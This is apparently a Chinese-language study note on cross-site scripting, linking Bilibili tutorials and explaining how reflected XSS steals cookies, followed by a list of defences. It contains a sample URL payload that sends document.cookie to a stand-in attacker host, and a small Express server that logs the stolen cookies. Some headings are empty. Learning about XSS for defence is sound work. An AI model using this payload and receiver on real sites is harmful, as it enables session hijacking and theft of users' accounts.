







# [1. XSS网络攻击，原理，类型和实践](https://www.bilibili.com/video/BV1rg411v7B8/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> 跨站脚本攻击

| 1.反射型xss攻击：一般是利用网页的检索功能                    |                                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |

https://xss-game.appspot.com/level1/frame

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |

| 2.存储型xss攻击：                                            |                                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |
| 3.DOM型xss攻击                                               |                                                              |
|  |  |
|  |                                                              |

# [1. XSS跨站脚本分类](https://www.bilibili.com/video/BV1ZR4y1V7GN/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> Cross-Site Scripting 跨站脚本攻击
>
> scripting：脚本语言，脚本撰写，脚本处理




## 1.1 反射型XSS



# [2. 反射XSS盗取Cookie](https://www.bilibili.com/video/BV1ZR4y1V7GN/?p=2&spm_id_from=pageDriver&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

## 2.1 cookie介绍


## 2.2 反射XSS盗取cookie

反射型XSS（Cross-Site Scripting）攻击是一种常见的网络攻击方式，攻击者利用网页的漏洞将恶意脚本注入到网页中，并使得这个脚本在用户浏览器中执行，从而窃取用户的敏感信息，例如 cookie。以下是如何利用反射型XSS盗取 cookie 的一般步骤：

### 1. **了解反射型 XSS**

**反射型 XSS 攻击发生在攻击者将恶意脚本嵌入到请求中，服务器将该请求的内容原样返回并嵌入到响应中。用户浏览器执行这些恶意脚本，从而泄露敏感信息或执行其他恶意操作**。

### 2. **构造恶意请求**

攻击者需要构造一个恶意 URL 或请求，将恶意脚本注入到请求中。例如，如果一个网站存在反射型 XSS 漏洞，用户的请求中的参数值被直接插入到 HTML 中，攻击者可以利用这种漏洞。

#### 示例恶意 URL

假设某个网站的 URL 参数被直接插入到 HTML 中：

```html
<p>Hello, <span id="user">USER_NAME</span>!</p>
```

攻击者可以构造如下 URL 来注入恶意脚本：

```plaintext
http://example.com/?name=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

在这种情况下，当受害者访问上述 URL 时，浏览器会执行注入的 JavaScript 代码，将用户的 cookie 发送到攻击者控制的服务器。

### 3. **处理并拦截 cookie**

攻击者需要设置一个恶意服务器来接收被盗取的 cookie。这个服务器可能只是一个简单的服务器，记录收到的请求。

#### 示例恶意服务器（使用 Node.js 和 Express）

```javascript
const express = require('express');
const app = express();

app.get('/steal', (req, res) => {
  // 记录被盗取的 cookie
  console.log('Cookie stolen:', req.query.cookie);
  res.send('Cookie stolen');
});

app.listen(3000, () => {
  console.log('Listening on port 3000');
});
```

### 4. **防范措施**

为防止 XSS 攻击，网站开发者应采取以下措施：

1. **输入验证和清理**：
   - 过滤和清理用户输入，确保没有恶意脚本被注入到页面中。
   
2. **输出编码**：
   - 对动态内容进行适当的 HTML 编码，例如，使用函数 `encodeURIComponent` 来处理 URL 参数，以避免插入恶意代码。

3. **使用 CSP（Content Security Policy）**：
   - 实施内容安全策略，限制可以在页面中执行的脚本来源，从而减少 XSS 攻击的风险。

4. **HttpOnly 和 Secure Cookie 标志**：
   - 对敏感 cookie 设置 `HttpOnly` 和 `Secure` 标志，防止客户端 JavaScript 访问 cookie。

5. **跨站请求伪造（CSRF）保护**：
   - 使用 CSRF 令牌来防止未经授权的请求。

### 总结

反射型 XSS 攻击通过将恶意脚本注入到网站中，从而盗取用户的 cookie。防范此类攻击需要确保输入和输出的安全性，实施适当的安全措施，例如 CSP、HttpOnly 和 Secure 标志等。了解如何防范 XSS 攻击是确保网站安全的关键。

## 2.3 利用cookie会话劫持

## 2.4 劫持会话后的操作


